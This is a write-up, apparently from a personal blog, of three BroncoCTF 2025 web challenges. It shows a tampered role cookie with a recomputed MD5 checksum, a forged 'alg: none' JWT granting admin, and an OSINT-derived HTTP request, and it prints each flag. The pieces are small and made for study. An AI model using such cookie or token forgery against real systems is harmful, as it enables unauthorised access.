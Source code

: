 ```yaml
---
layout: post
title: BroncoCTF 2025
date: 17-02-2025
categories: [Documentation]
tag: [web, bronco, ctf]
image:
  path: /assets/img/titles/broncoctf.png
  alt: broncoctf image
description: Some cool and fun web challenges from broncoCTF.
---
```


# Web
## Grandma's Secret Recipe

In this `challenge`, we just need to change the content from `kitchen helper` to 'grandma' and replace the `checksum` content with the `MD5 hash` of `grandma` and it's done.

```shell
Cookie: role="grandma"; checksum=a5d19cdd5fd1a8f664c0ee2b5e293167	
```
`Flag: bronco{grandma-makes-b3tter-cookies-than-girl-scouts-and-i-w1ll-fight-you-over-th@t-fact}`

## Miku's Autograph

In this challenge, remove the direct algorithm in `BurpSuite` and replace the value with `miku_admin`

```json
{
  "alg": "none",
  "typ": "JWT"
}
{
  "sub": "miku_admin",
  "exp": 1739780914
}
```

`Flag: bronco{miku_miku_beaaaaaaaaaaaaaaaaaam!}`

## Mary's Lamb is a Little Phreak

This challenge is more related to `OSINT`, so I searched for `mary had a little lamb telephone` and found a sequence of numbers `32123332223993212333322321`

```shell
GET /mary/32123332223993212333322321 HTTP/2
Host: mary.web.broncoctf.xyz
Sec-Ch-Ua-Platform: "Windows"
Access-Control-Allow-Origin: *
Accept-Language: en-US,en;q=0.9
Accept: application/json, text/plain, */*
Sec-Ch-Ua: "Not A(Brand";v="8", "Chromium";v="132"
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/132.0.0.0 Safari/537.36
Sec-Ch-Ua-Mobile: ?0
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: https://mary.web.broncoctf.xyz/
Accept-Encoding: gzip, deflate, br
Priority: u=1, i
```

`Flag: bronco{W0ah_y0u_f0und_m4rys_1itt1e_1amb}"`



